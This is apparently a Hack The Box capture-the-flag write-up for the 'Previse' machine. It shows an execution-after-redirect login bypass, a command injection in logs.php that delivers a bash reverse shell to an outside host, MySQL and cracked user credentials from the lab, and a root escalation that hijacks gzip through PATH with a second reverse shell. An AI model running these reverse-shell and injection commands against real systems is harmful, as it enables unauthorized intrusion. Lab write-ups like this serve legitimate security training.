 # [Previse](https://app.hackthebox.com/machines/previse)

```bash
nmap -p- --min-rate 10000  10.10.11.104 -Pn
```

![Alt text](img/image.png)


After identifying (22,80) ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80 10.10.11.104 -Pn
```

![Alt text](img/image-7.png)


There's automatic redirect while trying to login, that's why we need to change HTTP response status code into '200 OK' from '302 Not Found'

That's vulnerability called 'EAR' means (Execution After redirect)

1. First browse '/' page which says 302 Found and redirets into login.php
2. While you see 302 Found (on Interceptor), change this '200 OK'
3. On final, you are successfully authenticated.

Before request situation,

![Alt text](img/image-1.png)

We change into '200 OK' which we do manually.

![Alt text](img/image-2.png)



Now, finally we are logged in.

![Alt text](img/image-4.png)


Let's create user for ourselves, for each request we do what we do on previous step (changing from '302 Found' into '200 OK' )

![Alt text](img/image-5.png)


Dr4ks: Dr4ksdr4ks

I created account, let's login via this creds.

Now, we are 'Dr4ks' user.

![Alt text](img/image-6.png)



I identify Command Injection on parameter of 'comma' for 'logs.php' file.

![Alt text](img/image-8.png)


I add my reverse shell into value.

```bash
bash -c 'bash -i >%26 /dev/tcp/10.10.14.4/1337 0>%261' #
```

![Alt text](img/image-9.png)

We got reverse shell.

![Alt text](img/image-10.png)


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

![Alt text](img/image-11.png)


I found Mysql DB credentials on 'config.php' file on '/var/www/html' directory.

![Alt text](img/image-12.png)


root: mySQL_p@ssw0rd!:)

```bash
mysql -h localhost -u root -p'mySQL_p@ssw0rd!:)'
```

![Alt text](img/image-13.png)

Let's grab m4lwhere user's hash to crack via `hashcat` tool.

```bash
hashcat -m 500 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```

m4lwhere: ilovecody112235!


user.txt

![Alt text](img/image-14.png)


For privilege escalation, let's run `sudo -l` command to see how we can be root user.

![Alt text](img/image-15.png)


Let's add reverse shell into this script and run as root user.

![Alt text](img/image-16.png)


I see that 'gzip' binary is used, let's exploit this on this way that I create malicious 'gzip' file and masqeaured as like normal binary.


```bash
cd /tmp
echo "#!/bin/bash \n bash -i >& /dev/tcp/10.10.14.4/1337 0>&1" >> gzip
chmod +x gzip
export PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
sudo /opt/scripts/access_backup.sh
```

![Alt text](img/image-17.png)


root.txt

![Alt text](img/image-18.png)